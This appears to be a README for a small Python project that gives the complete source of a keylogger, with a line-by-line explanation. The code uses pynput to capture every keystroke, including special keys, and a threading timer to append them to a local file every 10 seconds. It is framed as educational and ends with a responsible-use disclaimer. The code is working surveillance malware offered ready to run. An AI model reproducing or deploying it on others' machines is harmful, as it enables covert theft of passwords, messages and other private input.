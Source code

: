 # Simple_Keylogger
Overview
This is a simple keylogger written in Python. It captures and logs keystrokes on a user's keyboard and saves them to a file. This project is intended for educational purposes to demonstrate how keyloggers work and to raise awareness about the importance of cybersecurity and protecting personal information.

*******************************
*          FEATURES            *
*******************************
Captures all keystrokes, including special keys (e.g., Enter, Backspace).
Logs keystrokes to a text file.
Cross-platform support (Windows, macOS, Linux).

Importing Libraries

import pynput.keyboard
import threading

pynput.keyboard: This module is used to listen to keyboard events. It provides tools to capture and react to keyboard inputs.
threading: This module is used to create and manage threads. Threads allow you to run multiple operations concurrently.

*******************************
*     GLOBAL VARIABLES         *
*******************************
log = ""
log_file_path = "path/to/save/the/logfile/keylog.txt"
log: This variable will store the keystrokes as a string.
log_file_path: This specifies the path where the log file will be saved. Ensure the path points to a file, not a directory.

Function to Capture Key Presses
def on_press(key):
    global log
    try:
        log += str(key.char)
    except AttributeError:
        if key == key.space:
            log += " "
        else:
            log += " " + str(key) + " "
on_press(key): This function is called whenever a key is pressed.

global log: This allows the function to modify the log variable defined outside of the function.

try block: Attempts to get the character representation of the key and append it to the log.

except AttributeError: Handles special keys (like Enter, Shift, etc.) that do not have a char attribute.

if key == key.space: Adds a space to the log if the spacebar is pressed.

else block: Adds the string representation of the key to the log for other special keys.

Function to Periodically Write Logs to File

def report():
    global log
    with open(log_file_path, "a") as f:
        f.write(log)
    log = ""
    timer = threading.Timer(10, report)
    timer.start()
    
report(): This function writes the logged keystrokes to a file and schedules itself to run again.
global log: This allows the function to modify the log variable.

with open(log_file_path, "a") as f: Opens the log file in append mode ("a").

f.write(log): Writes the contents of log to the file.

log = "": Clears the log after writing to the file.

timer = threading.Timer(10, report): Creates a timer that will call the report function every 10 seconds (adjust the interval as needed).

timer.start(): Starts the timer.

Setting Up the Keyboard Listener
keyboard_listener = pynput.keyboard.Listener(on_press=on_press)
with keyboard_listener:
    report()
    keyboard_listener.join()
    
keyboard_listener = pynput.keyboard.Listener(on_press=on_press): Creates a keyboard listener that calls the on_press function whenever a key is pressed.

with keyboard_listener: Ensures the keyboard listener is properly managed and closed when done.

report(): Calls the report function for the first time to start the logging and reporting process.

keyboard_listener.join(): Keeps the listener running in the current thread to capture keystrokes.

This Python keylogger script captures keystrokes and logs them to a specified file at regular intervals. It imports necessary modules (pynput.keyboard for capturing keystrokes and threading for scheduling). It defines global variables for storing keystrokes and the log file path. The on_press function handles key presses, appending characters to the log and managing special keys. The report function writes the log to a file and schedules itself to run every 10 seconds using a timer. The keyboard listener is set up to capture keystrokes and starts the reporting process. This ensures continuous monitoring and logging of keyboard input. Use this script responsibly and only in authorized environments.



